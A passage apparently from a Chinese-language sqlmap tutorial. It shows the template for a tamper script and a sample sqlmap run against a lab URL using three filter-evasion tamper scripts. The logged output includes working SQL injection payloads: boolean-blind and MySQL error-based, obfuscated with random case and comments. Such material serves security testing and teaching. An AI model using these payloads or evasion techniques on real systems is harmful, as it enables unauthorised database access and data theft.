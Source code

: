 	＃ Define which is the order of application of tamper scripts against
	
	＃ the payload
	
	__priority__ = PRIORITY.NORMAL
	
	def tamper(payload):
	
		'''
	
		Description of your tamper script
	
		'''
	
		retVal = payload
	
		# your code to tamper the original payload
	
		# return the tampered payload
	
		return retVal
​    

可以查看 tamper/ 目录下的有哪些可用的脚本
例如：

	$ python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
	
	[hh:mm:03] [DEBUG] cleaning up configuration parameters
	
	[hh:mm:03] [INFO] loading tamper script 'between'
	
	[hh:mm:03] [INFO] loading tamper script 'randomcase'
	
	[hh:mm:03] [INFO] loading tamper script 'space2comment'
	
	[...]
	
	[hh:mm:04] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
	
	[hh:mm:04] [PAYLOAD] 1)/**/And/**/1369=7706/**/And/**/(4092=4092
	
	[hh:mm:04] [PAYLOAD] 1)/**/AND/**/9267=9267/**/AND/**/(4057=4057
	
	[hh:mm:04] [PAYLOAD] 1/**/AnD/**/950=7041
	
	[...]
	
	[hh:mm:04] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE or HAVING clause'
	
	[hh:mm:04] [PAYLOAD] 1/**/anD/**/(SELeCt/**/9921/**/fROm(SELeCt/**/counT(*),CONCAT(cHar(
	
	58,117,113,107,58),(SELeCt/**/(case/**/whEN/**/(9921=9921)/**/THeN/**/1/**/elsE/**/0/**/
	
	ENd)),cHar(58,106,104,104,58),FLOOR(RanD(0)*2))x/**/fROm/**/information_schema.tables/**/
	
	group/**/bY/**/x)a)
	
	[hh:mm:04] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE or HAVING
	
